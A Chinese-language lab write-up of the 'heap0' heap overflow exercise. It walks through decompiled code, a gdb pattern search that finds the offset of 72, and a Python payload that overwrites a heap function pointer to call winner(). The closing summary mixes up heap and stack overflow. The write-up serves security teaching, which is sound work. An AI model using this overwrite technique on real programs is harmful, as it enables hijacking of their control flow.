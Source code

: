 # 堆溢出实验1

## 实验概述

### 【目的】
1. 运行heap0，得到输出`level passed`
### 【环境】
Linux
### 【工具】
python,IDA pro
### 【原理】
堆溢出是堆数据区中发生的一种缓冲区溢出。 堆溢出以与基于栈溢出不同的方式被利用。 堆上的内存由应用程序在运行时动态分配，通常包含程序数据。 通过以特定的方式破坏这些数据来执行开发，以使应用程序覆盖诸如链接列表指针的内部结构。 规范堆溢出技术覆盖动态内存分配链接（如malloc元数据），并使用生成的指针交换来覆盖程序函数指针。
## 实验步骤

### 【步骤】
#### heap0
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *dest; // ST14_4@1
  _DWORD *v4; // eax@1
  void (__stdcall **v5)(_DWORD); // ST18_4@1
  int v7; // [sp-4h] [bp-14h]@0

  dest = (char *)malloc(0x40u);
  v4 = malloc(4u);
  v5 = (void (__stdcall **)(_DWORD))v4;
  *v4 = nowinner;
  printf("data is at %p, fp is at %p\n", dest, v4);
  strcpy(dest, argv[1]);
  (*v5)(v7);
  return 0;
}
int winner()
{
  return puts("level passed");
}
```
连续分配了两个堆块，并对第一个堆块用`strcpy()`，即可以通过溢出第一个堆块从而改写第二个堆块的数据。那么改写第二个堆块的函数指针指向`winner()`，当运行到`(*v5)(v7);`，就会运行函数`winner()`，得到输出`level passed`。

不了解堆的数据结构的话，很难算出溢出点的偏移量，这里介绍一种寻找溢出点的方法。
```
$ gdb heap0 -q
GEF for linux ready, type `gef' to start, `gef config' to configure
66 commands loaded for GDB 7.11.1 using Python engine 3.5
[*] 1 commands could not be loaded, run `gef missing` to know why.
Reading symbols from heap0...(no debugging symbols found)...done.
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[+] Saved as '$_gef0'
gef➤  r aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Starting program: /home/lometsj/prostar/heap0 aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
data is at 0x804b008, fp is at 0x804b050

Program received signal SIGSEGV, Segmentation fault.
0x61616173 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
$eax   : 0x61616173 ("saaa"?)
$ebx   : 0xffffcee0  →  0x00000002
$ecx   : 0xffffd1f0  →  "aaxaaayaaa"
$edx   : 0x0804b062  →  "aaxaaayaaa"
$esp   : 0xffffceac  →  0x0804853f  →  <main+114> mov eax, 0x0
$ebp   : 0xffffcec8  →  0x00000000
$esi   : 0xf7fb6000  →  0x001afdb0
$edi   : 0xf7fb6000  →  0x001afdb0
$eip   : 0x61616173 ("saaa"?)
$eflags: [carry parity adjust zero SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023  $es: 0x002b  $ss: 0x002b  $ds: 0x002b  $fs: 0x0000  $gs: 0x0063  
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ stack ]────
0xffffceac│+0x00: 0x0804853f  →  <main+114> mov eax, 0x0	 ← $esp
0xffffceb0│+0x04: 0x00000002
0xffffceb4│+0x08: 0xffffcf74  →  0xffffd17a  →  "/home/lometsj/prostar/heap0"
0xffffceb8│+0x0c: 0x0804b008  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
0xffffcebc│+0x10: 0x0804b050  →  "saaataaauaaavaaawaaaxaaayaaa"
0xffffcec0│+0x14: 0xffffcee0  →  0x00000002
0xffffcec4│+0x18: 0x00000000
0xffffcec8│+0x1c: 0x00000000	 ← $ebp
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ threads ]────
[#0] Id 1, Name: "heap0", stopped, reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern search 0x61616173
[+] Searching '0x61616173'
[+] Found at offset 72 (little-endian search) likely
[+] Found at offset 69 (big-endian search) 
```
可以找到溢出点是72。

查找`winner()`的地址。
```
$ objdump -d heap0 | grep winner
0804849b <winner>:
080484b4 <nowinner>:

```
所以有
```
$ python -c 'print "a"*72 + "\x9b\x84\x04\x08"'| xargs ./heap0
data is at 0x86ab008, fp is at 0x86ab050
level passed

```

### 【总结】
本次实验主要体验Linux环境下堆溢出的发生场景，并尝试通过堆溢出覆盖（修改）相邻的堆块数据，达到改变程序执行流的目的。
可以发现，要使栈溢出发生，要满足以下条件：

- 程序允许用户输入
- 程序对用户的输入长度不加检查

栈溢出攻击是最为普遍而又危害极大的漏洞，要防御栈溢出攻击，首先要有良好的编码功力，对于用户的输入数据要做严格的长度检查，避免使用危险的函数。

